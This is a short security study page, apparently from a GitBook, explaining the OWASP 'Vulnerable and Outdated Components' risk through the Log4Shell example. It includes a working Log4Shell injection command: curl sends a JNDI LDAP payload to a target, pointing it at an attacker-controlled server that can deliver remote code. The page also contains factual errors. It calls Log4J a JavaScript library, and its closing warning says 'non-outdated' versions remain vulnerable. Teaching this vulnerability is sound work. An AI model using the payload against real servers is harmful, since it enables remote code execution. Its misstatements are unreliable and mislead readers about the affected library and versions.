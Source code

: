 # Vulnerable and Outdated Components

Highlights the dangers of using software libraries, frameworks, or components that contain known vulnerabilities or are outdated. When applications rely on these components, they inherit their security weaknesses, which could happen even on the server side or the client side.

Here is a typical example of this vulnerability:

* The _Log4Shell_ vulnerability is one of the most well-known examples of this. It is a vulnerability in the JavaScript library _Log4J,_ which allowed RCE and information disclosure

{% code overflow="wrap" lineNumbers="true" %}
```bash
#For example, a server is running using this component in its code
http://$url:8888/
#If we make a JNDI petition to the web server and redirect it to a JNDI server of our own, the connection will be caught, and the web server will process the content of the JNDI server
curl -A \${jndi:ldap://192.168.2.5:1234/a} http://TCMserver:8888/
#This can be leveraged by submitting exploits to the JNDI server, which will cause information disclosure and even RCE on the target server
```
{% endcode %}

{% hint style="warning" %}
This has been fixed in the latest versions of _Log4J_, but the vulnerability will remain in every application using a non-outdated version of the library
{% endhint %}
